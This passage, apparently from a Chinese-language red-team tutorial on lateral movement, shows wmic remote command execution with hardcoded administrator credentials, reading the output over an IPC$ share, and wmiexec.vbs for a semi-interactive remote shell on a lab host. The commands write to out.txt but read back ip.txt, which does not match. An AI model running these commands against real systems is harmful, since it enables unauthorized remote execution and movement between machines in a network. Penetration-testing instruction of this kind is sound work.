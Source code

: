 [![](assets/1702372940-f3ea83db67d33180a7529c48ebf8c0f3.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/OS/%E5%86%85%E7%BD%91/CS-%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91/6.png)

也可以使用目标系统的cmd.exe执行一条命令，将执行结果保存在C盘的out.txt文件中，

```bash
# 将文件内容写入到 out.txt
wmic /node:192.168.91.178 /user:administrator /password:Abcd1234 process call create "cmd.exe /c ipconfig >c:\out.txt"
```

建立`ipc$`后，使用`type`命令读取执行结果：

```bash
net use \\192.168.91.178\ipc$ "Abcd1234" /user:administrator
type \\192.168.91.178\C$\ip.txt
```

#### [](#cscript "cscript")cscript[](#cscript)

利用系统内置命令，可获取`交互式shell`  
（`无法在cs中使用，因运行成功后会一直进行反弹连接，导致卡bug`）  
需上传 `wmiexec.vbs` 然后进入该服务器内进行执行。  
`Wmiexec.vbs`脚本通过VBS调用WMI来模拟PsExec功能。`wmiexec.vbs`可以在远程系统中执行命令并进行回显，获得远程主机的`半交互式shell`

**提供账号密码，执行如下命令：**

```bash
cscript //nologo wmiexec.vbs /shell 192.168.91.178 username password
```
